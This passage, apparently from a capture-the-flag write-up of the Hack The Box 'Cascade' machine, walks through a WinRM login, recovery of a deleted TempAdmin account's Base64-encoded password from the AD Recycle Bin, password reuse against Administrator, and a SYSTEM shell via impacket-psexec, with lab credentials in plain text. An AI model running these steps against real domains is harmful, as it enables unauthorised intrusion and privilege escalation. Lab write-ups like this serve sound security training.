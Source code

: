 Connecting to the box with **Evil-WinRM**:
```
evil-winrm.rb -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd
```

### Privilege Escalation to Administrator

The user _ArkSvc_ is in the group _AD Recycle Bin_ which is what is needed to get information about the _TempAdmin_ account:
```
net users /domain ArkSvc

(...)
Local Group Memberships
- AD Recycle Bin
```

Searching for the deleted objects:
```
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```
```
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
DisplayName                     : TempAdmin
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
userPrincipalName               : TempAdmin@cascade.local
```

This user also has the _cascadeLegacyPwd_ attribute with a Base64-encoded string:
```
echo YmFDVDNyMWFOMDBkbGVz | base64 -d

baCT3r1aN00dles
```

As the HTML file from before stated, the password for this user should be the same as for the normal admin account:
```
(...)Username is TempAdmin (password is the same as the normal admin account password).
```

Lets try the _Administrator_ user with this password:
```
crackmapexec winrm 10.10.10.182 -u Administrator -p baCT3r1aN00dles

WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\Administrator:baCT3r1aN00dles (Pwn3d!)
```

The password is the same and it is possible to login into the box with **Impacket-PsExec** to get a shell as _NT Authority\SYSTEM_!
```
impacket-psexec Administrator@10.10.10.182
```
